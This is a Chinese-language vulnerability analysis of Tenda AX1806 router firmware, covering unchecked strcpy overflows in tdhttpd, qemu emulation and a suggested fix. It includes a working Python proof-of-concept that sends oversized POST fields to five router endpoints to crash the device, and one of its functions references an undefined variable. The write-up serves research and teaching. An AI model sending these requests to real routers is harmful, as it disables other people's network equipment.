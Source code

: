 Tenda AX1806路由器固件版本 v1.0.0.1，存在多处栈溢出漏洞，漏洞点在 tdhttpd 二进制文件中，使用了危险函数 strcpy 前未对参数长度进行判断，导致拒绝服务漏洞。

0x01 CVE信息
==========

通过公布的漏洞编号，得知CVE编号为 CVE-2022-28971、CVE-2022-28972、CVE-2022-28970、CVE-2022-28969、CVE-2022-28973。在CVE网站中查询相关信息，得到漏洞相关信息，基本上都是溢出类漏洞：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-678f4ed0eb472f9ff333332f4c0207eeab053422.png)

0x02 漏洞分析
=========

在官网下载固件（下载链接在文末），使用 binwalk 解包固件（需要用到ubi\_reader），得到 ubifs 文件系统：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-524e093ac5f0a0355769bc7b2566e50d2e592006.png)

查询收集CVE信息，得知漏洞点在于 fromAdvSetMacMtuWan 、form\_fast\_setting\_wifi\_set、fromSetIpMacBind、GetParentControlInfo、fromSetWifiGusetBasic 函数中。对于这种路由器系统来说，路由器一般都是通过 httpd 服务来运行路由器管理页面，用户在修改路由器配置时直接在管理页面上提交数据，交给 httpd 服务程序处理，所以可以在固件系统中查找 httpd 相关文件然后分析。使用 grep -r httpd . 命令在 ./bin 文件夹下查找到一个 tdhttpd 可执行程序：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a7f1df9f2dfb9d1c9cc29398b71ca966ea6e90c5.png)

将 tdhttpd 放入IDA查看，ARM 32位小端，文件没有去掉符号，很容易分析。接下来分析上面提到的几个漏洞函数。fromAdvSetMacMtuWan 内调用函数 sub\_658D8，sub\_658D8 内字符串拷贝前未对输入参数做长度判断：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-39eac1e643487c3b197247f33a1b36a3eaf87556.png)

form\_fast\_setting\_wifi\_set 函数在处理 timeZone 参数时未对长度进行判断：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-4c6f032f8f42e8ea509e0c31b4d144c91930ad5e.png)

fromSetIpMacBind 就更离谱了，未对长度进行判断，无论如何都将内容拷贝到v20变量中：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9b59e542088b51bd7312193cf226c6f9c632cafb.png)

GetParentControlInfo 函数在拷贝到堆块时未对长度进行判断，导致堆溢出：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-24cd62f150256405e16decb734c110d0c275d28d.png)

fromSetWifiGusetBasic 函数也是没有判断参数长度直接进行拷贝：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-8276b7779ded3f06373fa995d44ccd6622ab9675.png)

0x03 动态调试
=========

使用 sudo qemu-arm-static -L . ./bin/tdhttpd 模拟运行固件，运行时监听了80端口，但无法访问页面：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6e04594d34ae2c90df19263cfca7e73d8982cc21.png)

这个是因为IP地址不对，可以另起一个终端查看80端口的IP地址：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-d5650e25d3de9ca1e5eaf7a0c2e2fbee9d8ddf7b.png)

这时候需要新建一个网桥：

sudo apt install uml-utilities bridge-utils  
sudo brctl addbr br0  
sudo brctl addif br0 ens33  
sudo ifconfig br0 up  
sudo dhclient br0

新建网桥后除了本地网卡 ens33 以外多了一个 br0 网卡：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6ce3976881a7524a8ee6cfe6858c97c7b08a7c0a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-b403409be4e82e98f2f0db62a7d3f5e74997bf47.png)

然后安装 arm 环境的 libc，把 qemu-arm-static 拷贝到固件根文件夹下，再次运行 httpd 服务，就可以模拟成功并访问页面了：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-2bb404ee326bceb904bfbcd9edd32faefddbe590.png)  
sudo apt install qemu-user-static libc6-arm\* libc6-dev-arm\*  
cp $(which qemu-arm-static) .  
sudo chroot ./ ./qemu-arm-static ./bin/tdhttpd

虽然能模拟部分页面，但是 Wi-Fi 功能是不能用的，因为 Wi-Fi 功能需要独立的硬件来支持，所以如果要测试 Wi-Fi 功能相关的接口，还是需要购买路由器才行。由于我是纯模拟，没有购买路由器，所以测试接口的时候参考了公布的PoC代码，这里模拟固件只是方便复现调试。Poc代码如下：

import requests

def CVE\_2022\_28970():  
 data \\= {  
 b"mac": b"A"\*0x400  
 }  
 res \\= requests.post("<http://172.16.96.20/goform/GetParentControlInfo>", data\\=data)  
 print(res.content)

def CVE\_2022\_28973():  
 data \\= {  
 b"wanMTU": b'A'\*0x800,  
 }  
 res \\= requests.post("<http://172.16.96.20/goform/AdvSetMacMtuWan>", data\\=data)  
 print(res.content)

def CVE\_2022\_28969():  
 data \\= {  
 b"shareSpeed": b'A'\*0x800  
 }  
 res \\= requests.post("<http://172.16.96.20/goform/WifiGuestSet>", data\\=data)  
 print(res.content)

def CVE\_2022\_28971():  
 data \\= {  
 b"list": b'A'\*0x800,  
 b"bindnum": b"1"  
 }  
 res \\= requests.post("<http://172.16.96.20/goform/SetIpMacBind>", data\\=data)  
 print(res.content)

def CVE\_2022\_28972():  
 data \\= {  
 b"ssid": b'A',  
 b"timeZone": payload.ljust(0x100,b'A') + b":" + b"A"\*0x400  
 }  
 res \\= requests.post("[http://172.16.96.20/goform/fast\\\_setting\\\_wifi\\\_set](http://172.16.96.20/goform/fast%5C_setting%5C_wifi%5C_set)", data\\=data)  
 print(res.content)

CVE\_2022\_28971()

可以使用 gdb-multiarch 来动态调试Poc，只需要在qemu运行时加上调试参数。qemu运行命令如下：

sudo chroot ./ ./qemu-arm-static ./bin/tdhttpd

调试脚本如下：

gdb-multiarch \\\\ -ex "target remote :1234" \\\\  
 -ex "python set\_arch(\\\\"arm\\\\")" \\\\  
 -ex "b \*($1)" \\\\

执行Poc，因为栈中返回地址被覆盖，最后会返回段错误信息，qemu 崩溃退出。但如果在实际过程中，路由器就已经宕机了：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-2b9b52aeca00d509c305c65f7cd3d5dbb8598d59.png)

因为是 strcpy 对字符串进行拷贝，遇到空字符会截断，所以无法构造地址进行利用，只能达到拒绝服务的攻击目的。

0x04 漏洞修复思路
===========

总结下来就是使用危险函数 strcpy 前未对参数进行长度判断，导致栈溢出。可将 strcpy 函数替换为 strncpy 函数控制拷贝字符长度，或者在使用 strcpy 前对长度进行判断。

0x05 Reference
==============

[AX1806 升级软件\_腾达(Tenda)官方网站](https://www.tenda.com.cn/download/detail-3306.html)

[IoT-vuln/Tenda/AX1806 at main · d1tto/IoT-vuln](https://github.com/d1tto/IoT-vuln/tree/main/Tenda/AX1806)

[写给初学者的IoT实战教程之ARM栈溢出](https://www.anquanke.com/post/id/204326)